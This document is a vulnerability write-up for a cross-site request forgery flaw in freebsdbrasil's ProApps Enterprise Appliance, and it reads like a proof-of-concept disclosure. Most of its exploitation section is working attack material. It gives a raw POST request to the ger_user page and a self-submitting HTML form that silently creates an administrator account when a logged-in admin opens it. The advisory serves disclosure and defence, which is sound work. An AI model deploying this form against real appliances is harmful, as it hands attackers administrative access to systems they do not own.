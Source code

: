 # Description Item:
```
Product Vendor: freebsdbrasil
Item: ProApps - Enterprise Appliance
Editor Creator: DreamWeaver
PHP: PHP Version 7.3.18 
Java Script Library: Jquery UI 1.6 | Jquery 1.2.6
Server: NGINX
Operational System: FreeBDS Unix
```

## Vulnerability Type:
Cross-Site Request Forgery (CSRF)

## Description Vulnerability:
CSRF can cause lot of consequences, depending on how the CSRF request is crafted and the application's behavior. In this case, it is a CSRF vulnerability that allows the creation of an administrative account on the web application, resulting in unauthorized access. To exploit a CSRF, the victim needs to be authenticated and have the "Users" management permission set to "Modified" (True).

## Exploitation:
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

As mentioned before, when an authenticated user clicks on the link, the malicious code will send a request to create a new user by the user's web browser. The code below creates a new administrative account in the vulnerable web application with the username `CSRF_POC` and the password `yourpassword`.
The code sends a crafted POST request to the `ger_user page` page with the parameters `login`, `password`, `password2`, `nome`, `gid` and `email` fields. It is important to mention that this page is responsible for creating new users or changing their passwords. Filling the other parameters is optional; all the important ones are already completed and ready to use. The code below shows the POST request:

```
POST /index.php?page=ger_user HTTP/1.1
Host: vulnerablewebsite
Content-Length: 402
Cache-Control: max-age=0
Authorization: XXXXXXXXXXXXXXXXXXXXXXXXXXXX
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://XXXXXXXX
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://vulnerablesite/index.php?page=ger_user
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

task=save&boxchecked=0&hidemainmenu=0&search=&dados%5Bid%5D=&dados%5Bnome%5D=Teste+Blaze&dados%5Blogin%5D=user_test&dados%5Bemail%5D=test%40hotmail.com&dados%5Bgid%5D=2&dados%5Bpassword%5D=test123456&dados%5Bpassword2%5D=test123456&dados%5Bblock%5D=0&dados%5Bblock2%5D=1&dados%5Btotp2fa%5D=0&dados%5Btotp2fa_test%5D=&dados%5Btotp2fa_key%5D=4b818698b94ffb5e92377024f060d531&id=&option=ger_user
```


The code below is creating a new administrative account on the web application.
NOTE: Leave the `gid` parameter is set to 1 to ensure that the account will have administrative permissions, however, it can be changed depending on how the environment is configured.

```
<!DOCTYPE html>
<html lang="pt-br">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Send CSRF-POST Request</title>
</head>
<body>
    <form action="https://vulnerablesite.com/index.php?page=ger_user" method="POST">
        <!-- Campos do formulário -->
        <input type="hidden" name="task" value="save">
        <input type="hidden" name="boxchecked" value="0">
        <input type="hidden" name="hidemainmenu" value="0">
        <input type="hidden" name="search" value="">

        <input type="hidden" name="dados[id]" value="">
        <input type="hidden" name="dados[nome]" value="POC_CSRF">
        <input type="hidden" name="dados[login]" value="csrf_account">
        <input type="hidden" name="dados[email]" value="csfr@test.com">
        <input type="hidden" name="dados[gid]" value="1">
        <input type="hidden" name="dados[password]" value="yourpassword">
        <input type="hidden" name="dados[password2]" value="yourpassword">
        <input type="hidden" name="dados[block]" value="0">
        <input type="hidden" name="dados[block2]" value="0">
        <input type="hidden" name="dados[totp2fa]" value="0">
        <input type="hidden" name="dados[totp2fa_test]" value="">
        <input type="hidden" name="dados[totp2fa_key]" value="xxxxx">
        <input type="hidden" name="id" value="">
        <input type="hidden" name="option" value="ger_user">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```
Once exploited, it is now possible to log into the application and obtain unauthorized access.

## Impact Vulnerability:
CSRF Cross-Site Request Forgery allows creation of an administrative account or account hijacking.

### References:
- https://portswigger.net/web-security/csrf
- https://owasp.org/www-community/attacks/csrf
- https://www.linkedin.com/pulse/from-csrf-account-takeover-unmasking-danger-cross-site-request-lylbf/

